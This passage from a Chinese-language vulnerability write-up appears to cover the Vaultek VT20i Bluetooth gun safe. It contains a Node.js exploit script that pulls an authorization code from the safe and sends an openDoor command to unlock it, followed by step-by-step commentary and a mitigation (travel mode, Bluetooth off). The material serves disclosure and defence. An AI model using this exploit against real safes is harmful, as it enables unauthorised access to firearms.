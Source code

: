 ```
                targetCharacteristic = characteristics[0];
                targetCharacteristic.subscribe(function(error)`{``}`);
                targetCharacteristic.discoverDescriptors(function(error, descriptors)`{`
                    // write 0x01 to the descriptor
                    console.log('[+] Writing 0x01 to descriptor');
                    var descB = new Buffer('01','hex');
                    descriptor = descriptors[0];
                    descriptor.writeValue(descB,function(error)`{``}`);
                    console.log('[+] Fetching authorization code');
                    message = split(Buffer.from(rawData.shift(),'hex'),20);
                    for(j in message)`{`
                        targetCharacteristic.write(message[j],true,function(error) `{``}`);
                    `}`
                `}`);
                targetCharacteristic.on('data', function(data, isNotification)`{`
                    if(mcount==1)
                    `{`
                        process.exit()
                    `}`
                    mcount = mcount + 1;
                    data = decodePayload(data);
                    message = new Buffer.from(rawData.shift(),'hex');
                    message = decodePayload(message);
                    message[0] = data[0];
                    message[1] = data[1];
                    message[2] = data[2];
                    message[3] = data[3];
                    console.log("[+] Obtained Auth Code:");
                    console.log(d2h(data[0])+' '+d2h(data[1])+' '+d2h(data[2])+' '+d2h(data[3]));
                    CRC(message);
                    message = encodePayload(message)
                    message = new Buffer(message);
                    message = split(message,20);
                    console.log("[+] Unlocking Safe");
                    for(j in message)`{`
                        targetCharacteristic.write(message[j],true,function(error) `{``}`);
                    `}`
                    return;
                `}`);
            `}`);
        `}`);
    `}`);
    return;
`}`
noble.on('stateChange', scan);  // when the BT radio turns on, start scanning
noble.on('discover', findMe);
```

该脚本所执行的操作如下：
1. 针对getAuthor和openDoor命令定义了两个模板Payload。
1. 扫描枪支保险箱，定位服务，通过UUID实例化我们所需要交互的保险箱。
1. 向客户端特征配置描述符中写入一个0x01值来启用通知。
1. 在长度为20字节的数据块中发送我们getAuthor编码模板Payload来实现命令写入，然后等待获取响应信息。
1. 解码响应信息，获取前四个字节的认证令牌，然后将获取到的认证代码填充至我们的openDoor命令模板之中。
1. 向保险箱发送openDoor命令之后，我们将能够成功打开保险箱。
## 缓解方案

我们建议受影响的用户将Vaultek VT20i枪支保险箱切换到“旅行模式”，并禁用蓝牙功能。虽然“旅行模式”还会禁用掉距离传感器、键盘以及指纹扫描器，但是用户仍然可以使用钥匙来打开Vaultek VT20i枪支保险箱。
